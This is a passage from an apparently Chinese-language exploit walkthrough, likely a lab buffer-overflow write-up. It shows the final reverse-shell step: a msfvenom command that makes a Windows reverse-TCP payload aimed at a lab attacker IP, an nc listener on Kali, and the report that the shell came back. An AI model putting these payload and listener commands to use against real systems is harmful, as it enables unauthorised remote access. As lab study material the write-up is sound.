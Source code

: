 执行脚本，跳转成功了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rY3DHGcSQmTdmuPSRwaT03eLRawn3csAxU1THef8JMAE2114vzRpFToWRQyFKWarLdozJN7yDjsk3Zt8Y66rwQ/640?wx_fmt=png&from=appmsg "")  
## unsetunset9.反弹shellunsetunset  
### （1）使用msf生成反弹shell  
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.159.129 LPORT=4444 -f c -b "\x00\x0A\x0D\x25\x26\x2B\x3D" EXITFUNC=thread
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/rY3DHGcSQmTdmuPSRwaT03eLRawn3csA1ZBVwcGn2q5RN2qdw6fcK0b7uuM3gMgYoSOpGbdb0PBhhjvsxU7Lhw/640?wx_fmt=jpeg&from=appmsg "")  
### （2）将反弹shell的内容写入脚本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rY3DHGcSQmTdmuPSRwaT03eLRawn3csAiba57Qsh5865ZUHrNbcySQmibJ8olrQia9fbBtJFcxChIpheK1z2KF4sA/640?wx_fmt=png&from=appmsg "")  
### （3）kali端口监听  
```
nc -lvvp 4444
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rY3DHGcSQmTdmuPSRwaT03eLRawn3csARVV7umKfMtAYgmgREepxf1EwkJ0FurpjKgsiccIHMrUps7WWCmfjP7w/640?wx_fmt=png&from=appmsg "")  
### （4）反弹shell  
  
运行脚本，shell反弹给kali，漏洞利用成功  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/rY3DHGcSQmTdmuPSRwaT03eLRawn3csAQk98FhyuvDqTVwOr7vua93FnF9zRBvMR1xy25xm7LLpvoteIjKsNIQ/640?wx_fmt=jpeg&from=appmsg "")  
  
###   
  

